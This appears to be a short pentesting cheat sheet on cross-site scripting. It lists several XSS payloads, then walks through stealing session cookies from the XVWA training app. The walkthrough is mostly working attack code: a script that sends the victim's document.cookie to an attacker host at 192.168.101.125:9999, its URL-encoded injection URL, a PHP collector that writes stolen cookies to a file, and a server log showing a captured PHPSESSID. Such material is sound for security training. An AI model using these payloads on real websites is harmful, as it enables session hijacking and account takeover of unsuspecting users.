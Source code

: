 ```javascript
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
```

```javascript
\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>
```

```javascript
<IMG SRC=# onmouseover="alert('xxs')">
```



#### Steal cookies Method 1  (XVWA)

1. Create javascript

   ```javascript
   <script type="text/javascript">document.location="http://192.168.101.125:9999/cookies.php?cookie="+document.cookie;</script>
   ```

2. Convert the javascript  to URL encoder online (https://www.urlencoder.org/)

   ```
   %3Cscript%20type%3D%22text%2Fjavascript%22%3Edocument.location%3D%22http%3A%2F%2F192.168.101.125%3A9999%2Fcookies.php%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   ```

3. Add URL encoded javascript in the URL

   ```
   http://192.168.101.120/xvwa/vulnerabilities/reflected_xss/?item=%3Cscript%20type%3D%22text%2Fjavascript%22%3Edocument.location%3D%22http%3A%2F%2F192.168.101.125%3A9999%2Fcookies.php%3Fcookie%3D%22%2Bdocument.cookie%3B%3C%2Fscript%3E
   ```

4. Create PHP script in Kali Linux box

   ```php
   <?php
   $cookies = $_GET["cookie"];
   $file = fopen('cookies.txt', 'a');
   fwrite($file, $cookies . "\n\n");
   header('Location:http://192.168.101.120/xvwa/');
   ?>
   ```

5. Run PHP listener

   ```
   $ php -S 0.0.0.0:9999
   [Fri Oct 15 09:45:36 2021] PHP 7.4.21 Development Server (http://0.0.0.0:9999) started
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 Accepted
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 [302]: GET /cookies.php?cookie=PHPSESSID=mlojsspptmctk0ailhqi7fnkh1
   [Fri Oct 15 09:46:25 2021] 192.168.101.122:57492 Closing
   
   ```
